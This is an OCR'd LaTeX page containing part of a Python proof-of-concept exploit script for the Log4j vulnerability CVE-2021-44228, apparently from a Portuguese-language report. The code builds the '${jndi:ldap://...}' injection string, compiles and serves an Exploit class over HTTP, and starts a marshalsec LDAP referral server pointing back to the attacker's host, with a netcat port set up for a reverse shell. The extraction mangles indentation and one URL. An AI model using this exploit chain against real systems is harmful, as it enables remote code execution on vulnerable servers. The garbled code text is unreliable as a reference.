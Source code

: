 \documentclass[11t]{article}
\begin{document}
\begin{lstlisting}[breaklines=true]
# start the web server

httpd = HTTPServer(('localhost', int(webport)), SimpleHTTPRequestHandler)
httpd.serve_forever()

def checkJavaAvailible():
javaver = subprocess.call(['./jdk1.8.0_20/bin/java', '-version'], stderr=subprocess.DEVNULL, stdout=subprocess.DEVNULL)
if(javaver != 0):
print(Fore.RED + '[-] Java is not installed inside the repository ')
sys.exit()

def createLdapServer(userip, lport):
sendme = ("${jndi:ldap://%s:1389/a}") % (userip)
print(Fore.GREEN +"[+] Send me: "+sendme+"\n")

subprocess.run(["./jdk1.8.0_20/bin/javac", "Exploit.java"])

url = "
http://{}:{}/#Exploit".format
(userip, lport)
subprocess.run(["./jdk1.8.0_20/bin/java", "-cp",
"target/marshalsec-0.0.3-SNAPSHOT-all.jar", "marshalsec.jndi.LDAPRefServer", url])

def header():
print(Fore.BLUE+"""
[!] CVE: CVE-2021-44228
[!] Github repo:
https://github.com/kozmer/log4j-shell-poc
""")

if __name__ == "__main__":
header()

try:
parser = argparse.ArgumentParser(description='please enter the values ')

parser.add_argument('--userip', metavar='userip', type=str,
nargs='+', help='Enter IP for LDAPRefServer & Shell')

parser.add_argument('--webport', metavar='webport', type=str,
nargs='+', help='listener port for HTTP port')

parser.add_argument('--lport', metavar='lport', type=str,
nargs='+', help='Netcat Port')

args = parser.parse_args()

#print(args.userip)

payload(listToString(args.userip), listToString(args.webport), listToString(args.lport))

except KeyboardInterrupt:
print(Fore.RED + "user interupted the program.")
sys.exit(0)
\end{lstlisting}

\clearpage



\subsection*{Relatório Exploit Apache Log4j2 2.14.1 - Information Disclosure}
\end{document}
